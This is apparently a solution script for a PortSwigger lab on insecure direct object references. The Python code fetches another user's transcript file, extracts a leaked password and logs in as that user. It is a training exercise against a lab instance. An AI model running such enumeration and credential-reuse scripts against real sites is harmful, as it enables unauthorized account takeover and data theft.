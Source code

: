 # Lab: Insecure direct object references

Link to lab: https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a73003e040e7250c183fe34000500c4.web-security-academy.net/'

# Get carlos password

session = requests.Session()

response = session.get(
    url + 'download-transcript/1.txt',
    verify=False,
    allow_redirects=False
)

pattern = r'\b\w{20}\b'
password = re.search(pattern, response.text).group()

# Get login

response = session.get(
    url + 'login',
    verify=False
)

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name':'csrf'})['value']

# Post login

data = {
    'csrf': csrf,
    'username': 'carlos',
    'password': password
}

response = session.post(
    url + 'login',
    data=data,
    verify=False
)

print(response.text)
```